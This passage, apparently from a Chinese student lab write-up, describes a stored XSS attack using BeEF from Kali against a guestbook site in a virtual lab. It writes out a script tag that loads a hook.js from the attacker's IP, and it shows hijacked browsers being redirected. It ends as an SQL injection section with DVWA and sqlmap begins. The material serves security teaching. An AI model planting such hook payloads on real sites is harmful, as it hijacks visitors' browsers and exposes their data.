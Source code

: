 ![在这里插入图片描述](https://img-blog.csdnimg.cn/20201216024727800.jpg?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L1JlYXBlcl9NWEJH,size_16,color_FFFFFF,t_70#pic_center)

输入之前设置的账号密码，进入这个页面。↓

![在这里插入图片描述](https://img-blog.csdnimg.cn/20201216024828390.jpg?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L1JlYXBlcl9NWEJH,size_16,color_FFFFFF,t_70#pic_center)

查看XSS脚本。↓
 ![在这里插入图片描述](https://img-blog.csdnimg.cn/20201216024921793.jpg?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L1JlYXBlcl9NWEJH,size_16,color_FFFFFF,t_70#pic_center)

对方如果访问这个网站，对方的浏览器就会被劫持。

#### 访问http://留言簿网站/message.asp;将恶意代码写入网站留言板
**恶意代码：** 

```
<script src="http://Kali的IP地址:3000/hook.js"></script>
```
一开始使用10.34.80.233的那个ip是写死的，我在kali上访问不了，一开始我以为是端口的原因，我就换了个8888端口的，后来扫描发现kali和windows server不在一个网段里，查两者的网关发现两者网关都不一样。所以我就把windows server设为自动获取ip。再次`nmap -sP` ，两者在同一网段内，kali也可以访问留言簿了。

![在这里插入图片描述](https://img-blog.csdnimg.cn/20201216040223380.jpg?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L1JlYXBlcl9NWEJH,size_16,color_FFFFFF,t_70#pic_center)

看到这个页面发现我们可以说是成功了，看不见我们的html代码表示代码已被成功加载。

![在这里插入图片描述](https://img-blog.csdnimg.cn/20201216040249939.jpg#pic_center)

#### 审核用户留言（非严谨）
刷新页面或者点击首页会出弹框。↓（也相当于管理员审核邮件了，但是我的beef用了几次就出问题了，就没模拟管理员审核的步骤。）

![在这里插入图片描述](https://img-blog.csdnimg.cn/20201216040641124.jpg#pic_center)

然后我们回到kali这边发现信息已经疯狂加载，红色部分的一直在重复，我就不截图了。↓

![在这里插入图片描述](https://img-blog.csdnimg.cn/20201216040742922.jpg?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L1JlYXBlcl9NWEJH,size_16,color_FFFFFF,t_70#pic_center)

可以看到很多信息，我们还可以干一些“活儿”。↓

![在这里插入图片描述](https://img-blog.csdnimg.cn/20201216040817769.jpg?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L1JlYXBlcl9NWEJH,size_16,color_FFFFFF,t_70#pic_center)

“活儿”↓

![在这里插入图片描述](https://img-blog.csdnimg.cn/20201216040944231.jpg?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L1JlYXBlcl9NWEJH,size_16,color_FFFFFF,t_70#pic_center)

我们按照箭头指示更改链接为：青柠起始页，并==Execute==.↑

然后我们浏览留言簿页面就会加载为青柠起始页。↓

![在这里插入图片描述](https://img-blog.csdnimg.cn/20201216041127884.jpg?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L1JlYXBlcl9NWEJH,size_16,color_FFFFFF,t_70#pic_center)

#### 实验中XSS攻击属于哪种类型
实验中的XSS攻击属于注入型XSS攻击。
****

### SQL注入部分：DVWA+SQLmap+Mysql注入实战
实验环境搭建。启动Metasploitable2虚拟机。
